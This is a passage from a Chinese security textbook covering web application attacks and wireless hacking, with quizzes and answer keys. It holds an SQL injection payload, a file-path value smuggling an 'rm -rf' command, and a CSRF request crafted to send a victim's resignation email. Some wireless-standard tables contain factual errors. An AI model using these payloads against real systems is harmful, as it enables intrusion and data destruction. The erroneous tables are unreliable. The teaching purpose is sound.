    4. 以上所有

8. **网站篡改攻击无法在动态网站上进行。**
    1. 是
    2. 否

9. **以下哪项不是 HTTP 头部？**
    1. `User-agent`
    2. `Host`
    3. `Server`
    4. `Accept-Language`

10. **CRLF 注入会导致：**
    1. 网站篡改
    2. 跨站脚本
    3. Web 缓存污染
    4. 以上所有

# 答案

1. c
2. b
3. b
4. d
5. d
6. a
7. d
8. b
9. c
10. d

# 第 12 章：Web 应用程序攻击

## 引言

Web 应用程序构成了互联网的基础。交互式 Web 门户、搜索引擎、游戏门户等都是不同类型 Web 应用程序的示例。随着过去几十年里互联网的日益普及，曾经流行的桌面应用程序也很大程度上迁移到了 Web 端，以提供独立于客户端的易于访问的接口。由于大量信息通过这些通道流动，Web 应用程序成为了目标。

## 结构

本章中将涵盖以下主题：

- Web 应用程序基础
- Web 应用程序的威胁
- Web 应用程序的常见攻击
- 用于攻击 Web 应用程序的工具

## 目标

本章在某种程度上是上一章的延伸。上一章涉及 Web 服务器，而本章涉及 Web 应用程序。本章的目标是让你熟悉 Web 应用程序的动态机制及其面临的威胁。通过本章，你将熟悉 Web 应用程序面临的威胁、针对它们设计的常见攻击以及所使用的工具。

Web 应用程序是一种托管在服务器（通常是远程的 Web 服务器和应用程序服务器的组合）上并通过通过 Web 浏览器访问的软件。Web 应用程序本质上根据用户交互和位于 Web 服务器上的业务规则执行某些操作。这涵盖了从流媒体到托管论坛、发送和接收电子邮件等。典型的 Web 应用程序跨越以下层运行：


**图 12.1:** Web 应用程序请求流

Web 应用程序的主要优势是它们通常不需要终端用户的特殊硬件，也不需要安装。相反，它们可以通过名为 Web 浏览器的特殊应用程序访问。然而，某些应用程序可以限制为仅在特定浏览器上运行。由于客户端对硬件的要求较低，这意味着同一个应用程序可以被各种设备上的大型分布式用户访问。

选择 Web 应用程序的另一个优势是开发周期更短且易于推送更新。桌面应用程序需要重新安装或通过补丁更新，而对于用户来说，Web 内容的升级只需刷新页面即可。

这些因素，同互联网的普及和易于访问，使得 Web 应用程序作为向终端用户交付应用程序的手段采用率急剧增加。即使是最基本的组织网站也包含反馈板块、支持协助、新闻动态等。


**图 12.2:** 大型 Web 应用程序架构

从架构上来说，Web 应用程序是根据用途和规模多种技术的混合。面向用户的端（通常称为用户界面）由 `HTML`、`CSS` 和 `JavaScript` 组成。`HTML` 负责在浏览器中显示组件。`CSS` 负责所显示组件的样式设计，而 `JavaScript` 则控制这些组件与用户以及浏览器之间的交互。在应用程序后端（即大部分业务逻辑所在地），应用程序通常使用 `Java`、`C#`、`Ruby` 等语言编写。Web 的另一个组件是数据库，其中存储了与应用程序内容和用户相关的数据。

Web 应用程序中的其他组件可能包括 `CDN` 服务器、`load balances`（负载均衡器）、代理服务器等。

这意味着 Web 应用程序为黑客利用提供了巨大的攻击面。从组成部分来看，某些攻击面可以枚举如下：

- 应用程序代码库（自有及第三方插件）
- Web 浏览器
- 网络
- Web 服务器
- 应用程序服务器
- 代理服务器、负载均衡器和 `API` 网关
- `CDN`
- 数据库

Web 应用程序攻击的一个基本步骤是确定应用程序的哪一层在使用哪种技术栈。这是必要的，因为每一层都有许多技术栈变体，而破解每种栈并不是最有效的策略。这让我们回到了攻击的侦察阶段。在这里需要收集的重要信息是：


**图 12.3:** 错误页面上的服务器信息暴露

- **服务器型号和版本**：这通常反映在对服务器请求的响应头中。如果没有反映在响应头中，另一种方法是向服务器发送无效的资源请求。如果错误响应没有被妥善处理，就会返回服务器提示。这适用于所有类型的服务器——Web、应用、`CDN`、代理、负载均衡器等。对于每个服务器，攻击者可能需要执行一组不同的请求。例如，对于 Web 服务器，一个文档请求即可达到目的。媒体请求可以用于探测 `CDN`。一个 `API` 请求将落在应用服务器上，以此类推。

    

    **图 12.4:** 响应头中的服务器信息暴露

- **语言和框架**：确定所实现的语言和框架对于执行更具针对性的攻击非常重要。在发生注入攻击的情况下，需要根据底层语言和框架来编写脚本，因为它们每一种处理输入的方式可能不同。这些也可以通过响应结构和服务器返回的错误消息被轻松识别。

    

    **图 12.5:** 错误堆栈跟踪上的服务器信息暴露

- **强制执行的 Web 服务架构**：有两种被广泛遵循的 Web 服务规范：`REST` 和 `SOAP`。它们都有自己的优点和缺点。攻击者要利用 Web 服务，必须首先理解底层的实现。这有助于准备对 Web 服务发起更具针对性的攻击。

    

    **图 12.6:** 响应头中的服务器信息

- **底层操作系统**：操作系统信息可以从所使用的应用程序服务器间接得出。例如，`IIS` 服务器必须使用 Microsoft Windows 操作系统。`NGINX` 服务器通常部署在 `Linux` 上。正如侦察章节中讨论的那样，可以通过 `Nmap` 等工具获取更具体的信息。

现在我们对 Web 应用程序已经有了相当的了解，让我们探索一下攻击方法：

- **配置错误攻击**：此类攻击在所有层中都很常见且非常易于利用。配置错误包括对访问控制保留服务器默认设置、将不需要的服务加入白名单、允许非必需信息流出应用程序、不当标头等。在每一层，配置错误攻击都会导致不同的安全问题。

    在寻找配置错误攻击时，攻击者首先需要确定底层的应用程序、服务和操作系统。这减少了攻击者确定需要尝试哪些配置集的迭代次数。例如，如果能确定 Web 应用程序托管在 `WordPress` 上，攻击者将有一组清晰的配置细节可以尝试，如登录页面 URL、配置文件路径、数据库等。

    在确定底层操作系统后，攻击者将知道需要遍历的目录路径。同样，了解 Web 服务器的情况会告诉攻击者需要检查的默认模块。

- **注入攻击**：注入攻击可能是最常见的攻击，它们利用代码编写、框架、协议和服务器配置中的漏洞，将恶意内容注入并执行在底层服务器或 Web 应用程序的实际客户端上。注入攻击可能由于多种原因产生，最常见的原因是输入验证薄弱或不存在。

    这些情况是指通过表单或输入元素向应用程序传递的输入在传递给下一层之前没有经过验证。这可能在两个层面出现问题：


- 在用户界面层面，弱的输入验证导致了意外的数据输入。用户可能会输入数字而不是字符等。恶意用户可能会输入脚本，希望在服务器上执行它们。
- 在 `API` 层面，弱的输入验证导致潜在的恶意输入传递到应用程序服务器。这些包括数据库脚本、目录遍历片段、可执行代码甚至是恶意文件上传。

常见的注入攻击包括：

- **SQL 注入**：SQL 注入是注入攻击中最流行的。此类攻击利用弱的输入验证将查询操作脚本传递给应用程序。脚本附加或位于查询中的参数位置，并操纵结果。我们将讨论一个解释最基本的 SQL 注入使用的案例，并在后续章节中提供更详细的描述。

假设我们的攻击者 Bob 处于一个登录账户的信息显示页面。注意到 `API` 的查询参数接收用户名并返回其账户详情。Bob 有一个用户账户，想要提取管理员账户的详情。Web 服务交互如下：


**图 12.7:** 数据库交互 Web 服务

为了执行成功的攻击，Bob 需要建立两个点联系：

1. 底层数据库——确定脚本的语言。
2. 服务器对查询的处理——构建用于注入的脚本。

假设 Web 服务返回了以下响应：

```
{
"user_name": "Bob",
}
```

```json
{
    "first_name": "Bob",
    "last_name": "Attacker",
    "email": "bob@xyzabc.com",
    "role": "user"
}
```

这清晰地展示了所引用的数据库表结构。通过在 Web 服务中创建错误场景可以检测出底层数据库，例如：


**图 12.8:** 服务器错误中的数据库信息暴露

一旦 Bob 确定了方言，就可以修改输入以在查询中注入自定义子句。

我们知道底层查询类似于：

```
select * from account where user_name = ‘<user_name>’;
```

其中 `<user_name>` 被查询参数中的值所替换。因此，对于一个合法请求，查询将变为：

```
select * from account where user_name = ‘Bob’;
```

让我们看看 Bob 现在如何操纵输入。假设他希望结果查询返回管理员的详情。他必须执行的查询看起来可能像：

```
select * from account where role = ‘admin’;
```

在当前场景下，服务器端的查询可以被可视化为两个部分：固定查询和参数空间。虽然 Bob 无法控制固定查询，但参数空间完全可以由他操纵。

像这样的查询可能会生效：

```
select * from account where user_name = ‘Bob’ or role = ‘admin’;
```

这里的问题在于，由于 Bob 已经在表中有一条记录，系统最可能会返回查询结果中第一个用户的详细信息。因此，我们必须让第一个“where 子句”失效。为此，一个简单的解决方案是为用户名发送一个垃圾值。因此，查询可以修改为：

```
select * from account where user_name = ‘junkyard’ or role = ‘admin’;
```

假设系统中没有 `user_name` 为 `junkyard` 的用户，该查询将返回管理员用户作为第一个结果。所以，现在轮到 Bob 将此查询拟合到参数空间中了。

```
select * from account where user_name = ‘PARAMETER_SPACE’;
```

参数空间的一个候选片段是以下内容：

```
junkyard’ or role = ‘admin
```

由于网站或 `API` 未对输入验证，Bob 现在可以发送修改后的请求以从系统中获取管理员详情。

- **命令注入**：命令注入的工作原理与 SQL 注入相同，主要区别在于命令注入旨在系统 shell 上执行任意命令，而不是针对数据库。由于 UI 和 `API` 不对输入进行清理，并允许换行符、逻辑运算符等字符存在，这再次变得可能。其过程与尝试在预期在 shell 上执行的参数内追加或拟合代码片段的过程相同。

这同样与 SQL 注入具有相同的限制条件；攻击者需要评估底层的框架和查询解释器。

现在，Bob 逛到了一个文件下载页面，该网站允许下载其设计样本。Bob 迅速注意到了 `API` 的结构并有了一个主意。


**图 12.10:** 文件获取服务

假设底层框架使用 C 系语言，且实现中使用 `System` 库来访问目录，简单的操纵就可以让 Bob 能够删除目录中的所有文件。

Bob 控制的参数是文件路径。如果 Bob 决定附加一个命令终止序列以及一个新命令呢？该命令将成功执行。

```
/var/doc/sample1.jpg;rm -rf sample1.jpg
```

此片段如果追加到文件访问代码片段中，将执行第二个命令并从目录中删除 `sample1.jpg`。这是一个简单的执行命令；但如果这有效，Bob 潜在可以执行应用程序用户有权访问的命令。

- **LDAP 注入**：轻量级目录访问协议在全球范围内维护用户目录，并作为标准的身份验证和授权机制。LDAP 在底层系统中存储记录，并对其提供一些标准操作，如添加、删除、搜索、绑定和比较。与其他注入攻击一样，当应用程序未能输入验证并允许通过输入参数修改查询时，就会发生 LDAP 注入。

- **文件包含**：文件包含或注入漏洞发生在底层代码依赖输入参数构建指向可执行代码的路径时。


**图 12.11:** 文件包含攻击

因此，这些主要出现在 PHP 等脚本语言中。要执行文件包含攻击，攻击者必须首先在目标应用程序可以访问的远程服务器上托管恶意文件。一旦攻击实施，目标应用程序将访问远程文件并最终执行它。这些攻击非常严重，因为它们会导致直接的远程代码执行场景。


**图 12.12:** XSS 攻击

- **跨站脚本**：跨站脚本或 XSS 攻击发生在攻击者向应用程序发送可执行代码，而应用程序将这些代码传递给毫无防备的用户。XSS 攻击可以通过上一章讨论的头部注入进行。一个非常常见的例子是网络论坛，攻击者可以在其中插入带有恶意脚本的评论。如果应用程序不进行数据合法性检查，脚本将作为用户交互被存储，并为所有访问该页面的用户渲染。

- **跨站请求伪造**：CSRF 攻击涉及攻击者欺骗合法用户在法的 Web 应用程序上执行未经授权的请求。受害者可能直接或未直接执行请求，但将是受害者端采取某些操作的结果。由于这些攻击的最终目标通常是针对性的，并且需要用户登录 Web 应用程序，因此负载执行必须经过策划以匹配这一点。在大多数情况下，这一过程需要社会工程学。有一天，Bob 对公司的同事 Adam 产生了怨恨。他决定给 Adam 一点教训并开始策划攻击。Bob 知道公司网页邮件服务使用一个通过邮件 Web 应用的 GET 负载接收邮件请求的客户端，并且易受到 CSRF 攻击。邮件请求看起来如下：

```
GET:/mail?recipient=abc@abcxyz.com&subject=Hello&content=How are you
```

为了使用正确的邮箱，服务还会传递在 Web 客户端身份验证期间生成的用户 cookie。Bob 无法访问此 cookie。然而，他知道 Adam 喜欢苹果派，因此他决定利用公司邮件 Web 应用上的 CSRF 漏洞，欺骗 Adam 通过电子邮件提交辞职信。

他的主计划步骤如下：

1. Bob 策划了一个发送辞职邮件的 GET 请求。该请求如下：

   ```
   GET:/mail?recipient=boss@abcxyz.com&subject=I Quit&content=Good Bye.
   ```

2. Bob 现在将此请求包含在发送给 Adam 的邮件中图片的 `href` 中。邮件主题被设置为让 Adam 兴奋，因为它承诺提供祖母的秘密苹果派配方。Bob 还包含了一些从网上找到的配方以避免引起怀疑。

3. 一旦邮件草拟完成，Bob 通过一个匿名邮件服务器将其发送给 Adam，并等待 Adam 打开。

4. Adam 收到了邮件并立即打开，希望从中找到一些丢失的食谱。

5. 一旦邮件被打开，浏览器就会尝试加载所有邮件内容，包括那张伪造图片。

6. 图片没有加载，Adam 并没有察觉。然而，浏览器在尝试加载图片时确实发送了该邮件。由于 Adam 已经登录了邮件 Web 应用程序，邮件使用了了他的凭据。

7. Adam 毫无防备，并为发现了新的苹果派食谱而感到高兴。

8. 老板有一些问题要问，而 Bob 则在这次成功的计划中最后大笑了。


**图 12.13:** CSRF 攻击

- **缓冲区溢出**：当应用程序接收的数据包超过其处理能力时，就会发生缓冲区溢出攻击。如果底层应用程序没有对这些输入进行数据有效性检查，或者框架允许数据字节溢出到其他缓冲区，就会导致各种问题，从应用程序崩溃到攻击者能够向应用程序内存中注入代码并远程执行不等。缓冲区溢出攻击在使用 C 语言族开发的应用程序中更为常见，但如果程序员没有处理此类情况，在其他应用程序中也能发现。我们将在后续章节中详细讨论缓冲区溢出。

- **DoS 和 DDoS**：如上一节所述，DoS 和 DDoS 用于耗尽系统在处理恶意请求时的资源，导致合法请求无法及时得到服务。Web 应用程序是 DoS 和 DDoS 攻击的容易目标，因为长期黑名单某个用户 IP 或 IP 地址范围是非常困难的，因为范围可能会拦截合法用户。

- **会话操纵**：这些攻击通过提升攻击者会话或窃取用户会话来操纵用户的 Web 会话，从而访问包括账户在内的其他账户数据。会话操纵可以通过多种方式实现：

    - 会话拦截和劫持：攻击者拦截 Web 请求并提取会话信息。攻击者可以使用捕获的会话执行恶意操作。
    - 会话固定：攻击者通过链接将自己的会话传递给受害者系统，一旦受害者登录易受会话固定攻击的 Web 应用程序，攻击者的会话就会通过验证。

我们在学习 Web 服务器黑客方法论时已经详细讨论过这些攻击。

- **身份验证失效**：这些场景是指 Web 应用程序未能保护身份验证过程，使其容易受到暴力破解、会话劫持等攻击。这里有一个值得讨论的特殊案例是 Web 服务。

    Adam 决定构建一个用于文件共享的 Web 平台。该 Web 应用程序要求用户注册，然后使用个人账户保存并与想要共享的用户共享文件。Adam 编写了一段很不错的身份验证服务，并在登录页面进行调用。然而，他未能拦截后续指向应用程序的请求并对其进行授权检查。Bob 察觉到了这个问题的端倪。Bob 现在可以检查两个可能的问题：

    - Bob 创建了一个账户并拦截了 Web 服务。他直接使用不同的文件名尝试 Web 服务，并能够访问其他用户的文件。

- **XML 毒**：有大量应用程序使用 XML 作为载荷。这些攻击通过操纵请求来实现。攻击者可以：

    - 在 XML 中引入错误
    - 在请求中注入自定义实体以消耗更多服务器资源。如果这是一个严重问题，可能会导致 DoS。

- **枚举和密码暴力破解**：对 Web 应用程序最基本的攻击是暴力破解攻击，攻击者只需尝试所有可能的目录路径、凭据、加密密钥等组合碰运气。这也被称为字典攻击，因为攻击者会对以字典形式组合的一组组合尝试结果。

    Web 服务的响应也可以通过返回一些有用信息（例如尝试的用户名是否有效）来辅助攻击。在确定了目标用户名后，将采用密码暴力破解。

# Web 应用程序黑客攻击使用的工具

由于大多数 Web 应用程序攻击涉及侦察和载荷准备，主要使用的工具是用于侦察的。偶尔可能需要自动载荷交付或执行已知漏洞攻击，这可能需要如 `Metasploit` 这样的专业工具。在 Web 服务器黑客和侦察阶段讨论过的，如 `Nmap` 等侦察工具以及 `Burp Suite` 等拦截和数据包分析工具承担了大部分主要工作。

网上有很多工具可以对 Web 应用程序的已知安全漏洞进行全面扫描。这些包括 `Netsparker`、`Web Vulnerability Scanner`、`Detectify` 等工具。

`Brutus`：Brutus 最初编写是为了帮助检查路由器的默认用户名和密码，是一个免费的远程密码破解器。它可以用于多种远程应用程序，涵盖 `Basic`、`HTML form`、`POP3`、`FTP`、`SMB` 和 `telnet` 身份验证。


**图 12.14:** Brutus 暴力破解界面

`Detectify`：Detectify 是一种 Web 漏洞扫描器，可以帮助检测你拥有的域名的安全问题。通过其直观的仪表板和与工作流的集成，它为企业和网站所有者提供了易于使用的解决方案，以提升其 Web 应用程序的安全水平。


**图 12.15:** Detectify 报告仪表板

`Netsparker`：另一种直接集成到开发周期中的网络漏洞扫描工具，Netsparker 提供了桌面和 Web 应用解决方案，用于扫描多个网站。


**图 12.16:** Netsparker 仪表板

`WPScan`：用于扫描 WordPress 网站，WPScan 是一种流行的黑客工具，因为互联网上大部分网站使用 WordPress 引擎，且 WPScan 提供了大量的枚举和破解工具。


**图 12.17:** WPScan 界面

# 结论

到为止，我们讨论了从独立系统到 Web 服务器和 Web 应用的经典形式信息系统。所有这些系统都需要攻击者获取其接口的访问权限并执行相应的攻击。

接下来，我们将利用这些信息，尝试理解更复杂的攻击面和漏洞形式。下一章将涉及理解涉及的无线网络以及如何绕过这些网络。然后，我们将转向更近期的信息系统进展，如云和 IoT 系统。

# 测试你的理解

1. **Web 应用只能在台式计算机上访问。**
   1. 是
   2. 否

2. **当 Web 应用满足以下条件时，可能会会话固定攻击：**
   1. 完全不使用会话维持登录状态
   2. 对未登录和已登录的会话使用相同的会 ID
   3. 在登录成功后创建新的会 ID
   4. 将会 ID 的有效期保持得非常短

3. **未处理的错误页面可能会暴露哪些内容？**
   1. 操作系统
   2. 服务器详情
   3. 数据库详情
   4. 以上所有

4. **LDAP 是什么？**
   1. 标签目录归档协议
   2. 轻量级目录获取协议
   3. 标签目录获取协议
   4. 轻量级目录访问协议

5. **以下哪个是 Web 应用环境的一部分？**
   1. 负载均衡器
   2. Web 服务器
   3. 代理服务器
   4. 以上所有

# 答案

1. **b**
2. **b**
3. **d**
4. **d**
5. **d**

# 第 13 章 破解无线网络

## 引言

无线网络彻底了世界交互的方式，特别是与互联网的交互。设置接入点的便利性以及让用户不再受限于线缆接口的连接，增加了访问的便利性，并降低了成本和基础设施开销。随着如此快速的发展速度，无线网络已经从每秒几比特的数据传输增长到每秒数千比特的信息流。

## 结构

在本章中我们将涵盖以下主题：

- 无线网络基础
- 与无线网络相关的标准和协议
- 无线网络中的侦察
- 攻击方法论

## 目标

我们旨在研究这些网络的基础，以及它们如何改变安全行业的格局。本章将介绍无线网络的基础、其组件、协议和应用。我们将从安全格局的角度研究这些协议，并尝试识别它们中的每个漏洞点，同时深入了解主要的无线网络攻击。

## 无线连接

无线网络使用不同频率的无线电波在空中传输数据。最原始形式的无线网络包含一个接入点（可能是路由器或交换机）以及连接的设备。

无线网络在现代便携式连接设备时代是巨大的便利。摆脱线缆和物理接入点开启了一个灵活的世界。

- **移动性**：摆脱线缆和物理接入点开启了一个灵活的世界。
- **安装性**：在便携式连接设备的现代时代，无线网络是巨大的便利。
- **可扩展性**：在便携式连接设备的现代时代，无线网络是巨大的便利。
- **灵活性**：摆脱线缆和物理接入点开启了一个灵活的世界。


**图 13.1:** 无线网络


然而，尽管如此便利，无线网络可能是你安全体系中最薄弱的一环。由于通信的无线特性而产生的一些问题如下：

* **数据包捕获**：与有线网络不同（攻击者必须物理接入网络才能连接），无线网络允许在空中对数据包进行捕获、修改和注入。

* **配置错误**：由于有各种设备连接到无线网络，有时保护无线网络是非常困难的。

* **覆盖区域**：如果不检查，无线网络的范围可能不受限于设施的物理边界。

* **伪装**：由于缺乏物理连接，攻击者可以很容易伪装接入点并诱骗受害者加入恶意网络。

## 无线标准

随着无线网络使用方式的快速变化，特别是带宽容量和安全需求方面，无线标准也经历了巨大的演进。这些标准遵循 IEEE `802` 系列局域网、个人局域网和城域网标准。无线网络专门遵循 `802.11x` 系列，该系列规定了无线局域网通信的介质访问控制和物理层协议。一些重要的变体如下：

### 802.11a

发布于 1999 年，用于工作在 5 GHz 频段的设备，理论最大速率为 54 Mbps，在小范围内实际速度可达 25 Mbps。

### 802.11b

用于 2.4 GHz 频段的操作，支持 11 Mbps 的理论最大速率，在约 25 到 30 米的范围内实际速度通常在 4 到 6 Mbps 之间。使用此规范的设备受到 2.4 GHz 频段内其他产品（如微波炉、婴儿监视器和蓝牙设备）的干扰，因为它们只使用三个不重叠通道。

### 802.11g

`802.11g` 于 2003 年 6 月推出，具有与 `802.11b` 的兼容性，并运行在 2.4 GHz 频段，传输速度高达 54 Mbps。它采用了 `正交频分复用`（`OFDM`）调制，并且与 `802.11b` 一样，面临来自同一频段运行的其他设备的干扰问题。

### IEEE 802.11ac (Wi-Fi)

`IEEE 802.1ac` 以 Wi-Fi 之名上市，于 2014 年 1 月获得批准。它在 5 GHz 频段的更宽的 80 MHz 或 160 MHz 通道上工作，具有多达 8 个空间流，并采用更高阶调制。它进一步被分为两个阶段：Wave 1 和 Wave 2，其中 Wave 2 提供更高的带宽和空间流。它的单链路吞吐量至少为 0.5 Gb/s，多链路吞吐量至少为 1.1 Gb/s。

### 802.16 (WiMAX)

宽带无线网络正作为一种满足商务领域对宽带接入日益增长的需求而变得普及。它是一种非常多功能的工具，因为它部署快速，并且能够语音、数据和视频服务。`IEEE 802.16` 规范旨在标准化无线城市局域网络的接口。对于双向通信，10 到 66 GHz 的带宽在许多已批准的频率上支持不同水平的流量，包括 10.5、25、26、31、38 和 39 GHz。它还允许系统互操作性，允许运营商使用来自不同制造商的低成本设备和产品进行协同工作。

| 修订标准 | 频率 | 调制 | 速度 | 范围 |
| --- | --- | --- | --- | --- |
| 802.11a | 5 GHz | OFDM | 54 Mbps | 25-75 英尺 |
| 802.11b | 2.4 GHz | DSS | 11 Mbps | 150-150 英尺 |
| 802.11g | 2.4 GHz | OFDM, DSSS | 54 Mbps | 150-150 英尺 |
| 802.11n | 2.4 GHz, 5 GHz | OFDM | 54 Mbps | ~100 英尺 |
| 802.16 (WiMAX) | 10-66 GHz | NA | 70-1000 Mbps | 30 英里 |
| 蓝牙 | 2.4 GHz | NA | 1-3 Mbps | 25 英尺 |

**图 13.2**：无线标准

### 蓝牙

蓝牙是由诺基亚、爱立信、英特尔和东芝开发的无线技术，规定了手机、电脑和其他电子设备之间如何通信。因此，蓝牙消除了在约 30 英尺距离内此类通信对电缆或红外链路的需求，且功率需求极低。

蓝牙相比 Wi-Fi 的主要缺点在于速度极其缓慢。另一方面，另一个大优势是不需要基站作为中介。设备本身就能通过 `Bluetooth` 协议相互连接。该协议运行在 2.4 到 2.48 GHz 频谱上，具有扩频跳频的能力。


**图 13.3**：蓝牙配置

最简单的蓝牙设备以点对点的配置工作，其中一个作为主设备，另一个作为从设备。`Bluetooth` 网络中的设备可以在单个网络空间内连接最多 7 个设备，该空间被称为 `微型网`。在单个微网内，设备同步到公共时钟和跳频序列。除了连接到主设备的 7 个活动设备外，还可以有多多 255 个处于非活动或挂起状态的从设备。

更复杂的蓝牙通信形式是通过 `分型网`，它是多个具有共享主设备或从设备的微网的集合。因此，当一个微网的主节点或从节点选择连接到另一个微网的主节点并在两个微网之间进行通信时，就形成了一个分型网。一系列此类连接可以形成大型蓝牙网络，信息在多个微网之间流动。

**蓝牙信标** 利用蓝牙技术的低功耗特性，作为小型无线发射器工作。这些设备在商店和大型设施中得到了应用，应用范围从在用户进入商店时在手机上发布优惠，到为大型设施提供超本地地图解决方案。

 **接入点：** 接入点是一种允许其他设备进行网络连接的设备。它可以与路由器集成，也可以作为连接到路由器的独立设备。

**服务集标识符：** 这是一个区分大小写的、唯一的字母数字名称。

**基本服务集标识符：** 它是接入点的 MAC 地址。

### 有线等隐私 (WEP)

`WEP` 是 `IEEE 802.11` 标准的第一种安全算法。它使用 `RC4` 流加密进行加密，并采用了 40 位密钥初始化向量。


**图 13.4**：WEP 加密

`RC4` 作为流加密，在重复使用密钥时会导致网络极易受到密码分析。因此，`WEP` 标准被 Wi-Fi 联盟弃用，以由更安全的 `WPA` 和 `WPA2` 取代。

### Wi-Fi 保护访问 (WPA)

`WPA` 是作为 `WEP` 缺陷的中间解决方案被引入到无线网络。它仍然使用 `RC4` 算法，但采用了 `临时密钥完整性协议`（`TKIP`）来缓解风险。


**图 13.5**：WPA 加密

### WPA2

`WPA2` 或 Wi-Fi 保护访问 2 于 2004 年作为 `WPA` 的升级。它实现了符合美国国家标准技术研究院（`NIST`）FIPS 140-2 的 `AES` 加密和基于 `802.1x` 的认证，旨在提供政府级安全。

`WPA2` 有两种工作模式：

1. `WPA2-个人版` 或 `预共享密钥`（`PSK`），主要为家庭用户设计，使用预共享密钥进行认证。

   

   **图 13.6**：WPA2 预共享密钥

2. `WPA2-企业版` 为企业级网络设计，采用了比 `PSK` 更复杂的认证机制，涉及到管理网络加密密钥的认证服务器。

   

   **图 13.7**：WPA 认证机制

### WPA3

`WPA3` 于 2018 年 1 月推出作为 `WPA2` 的替代品，旨在缓解 `WPA2` 算法中发现的安全风险。`KRACK` 或密钥重装攻击利用了 4 次握手（用于建立客户端与接入点之间的信任）的设计缺陷，已被成功证明可以重放、解密和伪造数据包。


**图 13.8**：WPA2 企业版

`WPA3` 在企业模式下使用 192 位加密函数，并在个人模式下采用 `CCMP-128` 作为最低加密算法。此外，它根据 `IEEE 802.11-2016` 使用等效身份认证 (SAE) 代替预共享密钥交换，确保了初始密钥交换更加安全。

**图 13.9**：四次握手

| **加密类型** | **加密算法** | **身份验证** | **加密密钥** | **完整性检查机制** |
| :--- | :--- | :--- | :--- | :--- |
| WEP | RC4 | 开放系统和共享密钥 | 40/104 位 | CRC-32 |
| WPA | RC4, TKIP | PSK 验证 | 128 位 | Michael 算法和 CRC-32 |
| WPA2 | AES, CCMP | MIC 和 FCS | 128 位 | CBC-MAC |
| WPA3 | AES, CCMP | 等等身份认证 | 192 位 | SHA-2 |

**图 13.10**：Wi-Fi 标准对比

## 无线攻击方法论

典型的无线网络攻击通常涉及以下步骤：

1. 无线网络发现
2. 无线网络映射
3. 无线网络流量分析
4. 实际攻击

### 无线网络发现

这一步是指最初寻找网络的行为。这通常涉及定位目标无线网络的 SSID。在无线网络中定位 SSID 有两种方法：

* **主动扫描**是指客户端无线电台发送探测请求并监听来自接入点的探测响应。

* **被动扫描**涉及客户端监听接入点定期发送的信标。

被动扫描通常较慢，因为客户端必须等待信标而不是通过探测来寻找接入点。


**图 13.11**：用于 Wi-Fi 扫描的 Xirrus Wi-Fi Inspector

 **无线适配器**是连接到系统以使其连接无线网络的硬件。它可以被配置为各种配置（即适配器模式），并提供不同的功能。

1. **主模式**：适配器充当接入点。
2. **管理模式**：适配器作为客户端连接到接入点。
3. **监听模式**：允许适配器监控无线网络中的所有流量。
4. **自自模式**：设备作为独立对等节点执行点对点的网络通信。
5. **网格模式**：适配器直接连接到调制解调器一系列卫星模块以增强 Wi-Fi 覆盖。
6. **中继模式**：用于配置适配器以扩展现有 Wi-Fi 范围。

### 无线网络映射

这涉及到在 GPS 的帮助下对无线接入点进行地理映射。这有助于维护无线网络目录，以及连接参数（如接入点名称、凭据、位置和信号相对强度）。在计划对无法随时直接访问的网络进行攻击时，这一点至关重要，例如攻击者需要移动以避免引起怀疑，因此在目标接入点所在的设施周围绕圈，或者只是在开车行驶寻找可以连接的开放网络。

市场上存在各种工具可以自动完成这一过程。


**图 13.12**：映射工具

### 无线网络分析

需要对网络进行分析，以理解安全协议、流量和取消认证。一旦完成无线网络的分析，攻击者就可以计划执行攻击了。针对无线网络的主要攻击包括取消认证攻击、WPA 握手捕获和中间人攻击。

### 取消认证攻击

如名所示，该攻击旨在断开接入点与目标之间的通信。攻击所需的唯一信息是受害者的 MAC 地址，这可以通过嗅探获得。攻击者使用伪造的 MAC 地址向接入点发送取消认证帧，将设备从网络断开。


**图 13.13**：取消认证攻击

### WPA 握手捕获

执行 WPA 握手捕获是为了捕合法设备与接入点之间的身份验证包。包中的信息将针对可能的密码字典（单词列表）进行测试，以提取明文密码。

这里有两个重要的操作：

1. 在攻击者捕获数据时，合法设备必须在网络上进行身份验证。这通常通过执行取消认证攻击来实现，强制设备重新连接到接入点，从而再次执行身份验证过程。

2. 密码破解直接取决于单词表中是否存在实际密码。单词表越广泛，破解密码的可能性越大。然而，由于内存和计算及时间限制，这可能会受到限制，因为随着密码预期复杂性和长度，单词表文件可能会变得巨大。


**图 13.14**：握手捕获

### 中间人攻击 (MITM)

中间人可能是无线网络中最著名的攻击之一。它涉及攻击者伪装成远程设备的路由器，并伪装成路由器的远程设备，从而在中间监听并转发从一端到另一端的包。

要执行中间人攻击，攻击者需要进入目标系统和接入点之间。这是通过一种称为 `ARP 欺骗` 的技术实现的，攻击者在网络中伪装成路由器并欺骗受害者系统将其视为路由器。

因此，攻击者将在网络上广播一系列针对受害者系统的伪造 `Address Resolution Protocol`（`ARP`）请求。这种方法是双向的，也就是说，它会迫使受害者将流量发送到攻击者的系统，而网络上所有针对受害者系统的响应都将被路由到攻击者的系统。这是通过在 `ARP` 表中将攻击者的 MAC 地址与目标主机的 IP 地址关联来实现的。由于 `ARP` 是无状态协议，这些更改会被接受并更新到主机的 ARP 缓存（`ARP cache poisoning`）中，使得攻击持续更久的时间。


**图 13.18**：`arpspoof`

一旦建立了流量中，攻击者就可以拦截并检查受害者参与的所有通信。攻击甚至可以达到攻击者操纵入站和出站通信包。

`MITMf` 和 `arp spoof` 是一些用于执行自动化 ARP 欺骗的命令行工具。

## 无线蜜罐

黑客在无线网络中的首选攻击手段是无线蜜罐，即攻击者创建访问点以诱导受害者连接，并无缝地获取其通信和系统。蜜罐通常分为两种：

1. **免费开放热点**：攻击者设置一个开放的 Wi-Fi 网络，用户为了获得免费互联网而加入。此类网络中的通信可以被攻击者直接访问。另一种变体是攻击者在餐厅等公共空间内部或附近设置热点，并为他们的访问点命名，暗示它们由餐厅拥有，从而给受害者虚假的信任感。

   

   **图 13.19**：恶意孪生

2. **恶意孪生**：这种方法要求攻击者伪造现有的访问点，欺骗受害设备连接到它而不是真实的访问点。对于网络中的新设备，用户连接到虚假访问点完全是一个偶然。为了针对已连接的设备，虚假访问点会与目标设备的取消认证攻击配合。这会将设备从原始访问点断开连接，并为虚假访问点的使用创建一个窗口。攻击者可以重复取消认证攻击直到受害者连接到蜜罐访问点，这通常被称为 `evil twin`。

## 结论

在当今连接的世界中，无线网络的重要性以及其安全风险和潜在危害都不应被忽视。在本章中，我们识别了构建和运行这些网络的概念。我们还学习了常见的配置以及针对这些网络部署的一些攻击。

